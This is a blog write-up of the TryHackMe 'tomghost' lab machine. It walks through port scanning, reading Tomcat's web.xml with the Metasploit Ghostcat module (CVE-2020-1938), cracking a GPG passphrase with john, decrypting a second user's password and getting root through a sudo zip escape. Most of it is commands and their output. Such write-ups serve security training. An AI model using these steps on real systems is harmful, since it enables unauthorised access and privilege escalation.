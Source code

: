```yaml
---
layout: post
title:  "THM Write-Up tomghost"
summary: Write-Up to the TryHackMe Machine tomghost
author: utnelson
date: '2022-02-10 10:35:23 +0530'
category: ['thm','write-up', 'easy']
thumbnail: /assets/img/posts/ghost_title.png
keywords: ghostcat, thm, box, easy, write-up, walkthrough
permalink: /blog/write-up-ghostcat/
---
```


## Enumeration

```console
root@machine:~$ nmap -sC -sV 10.10.114.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 12:55 CET
Nmap scan report for localhost (10.10.114.227)
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

Nothing special on the website. So I inspected the `8080/tcp` port with `Apache Jserv (Protocol v1.3)`.  

After a short google session i found a exploit [CVE-2020-1938](https://www.exploit-db.com/exploits/48143).

Let's run metasploit for that:

```console
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show 
missing

msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```

Only insert the `RHOSTS` with the target IP. And `run` it.  

```console
Result:
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
...
```

Nice. we found some creds `skyfuck:8730281lkjlkjdqlksalks`
## Foothold

ssh into the machine
```console
root@machine:~$ ssh skyfuck@10.10.114.227
The authenticity of host '10.10.114.227 (10.10.114.227)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.114.227' (ECDSA) to the list of known hosts.
skyfuck@10.10.114.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$
```

```console
skyfuck@ubuntu:~$ ls -la
total 928
drwxr-xr-x 4 skyfuck skyfuck   4096 Feb 10 04:19 .
drwxr-xr-x 4 root    root      4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck    136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck    220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck   3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:08 .cache
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:19 .gnupg
-rw-r--r-- 1 skyfuck skyfuck    655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck    394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 136707 Feb 10 04:20 ghostcat.txt
-rwxrwxr-x 1 skyfuck skyfuck 764159 Feb 10 01:48 linpeas.sh
-rw-rw-r-- 1 skyfuck skyfuck   5144 Mar 10  2020 tryhackme.asc
```

in the home dir are two interesting looking file `tryhackme.asc` and `credential.pgp`. Download the to your local machine.  

Run `gpg2john` for getting the hash.

```console
root@machine:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2022-02-10 13:39) 6.666g/s 7146p/s 7146c/s 7146C/s alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nice it worked. So You can decrypt the `credential.pgp` with that.  
Import the key with inserting the found passphrase.
```console
root@machine:~$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
Decrypt the text.
```console
root@machine:~$ gpg --output ./plaintext.txt --decrypt ./credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"

root@machine:~$ cat plaintext.txt 
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j    
```
Nice new Creds for the user `merlin`  
Let's change to him.

```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```
Change to home directory and there we go our `user.txt`

## Prev Escalation

First we check if there are any sudo commands we can execute. 
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

Run the following code:

```console
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We got root. Cat the `root.txt` and you are done.


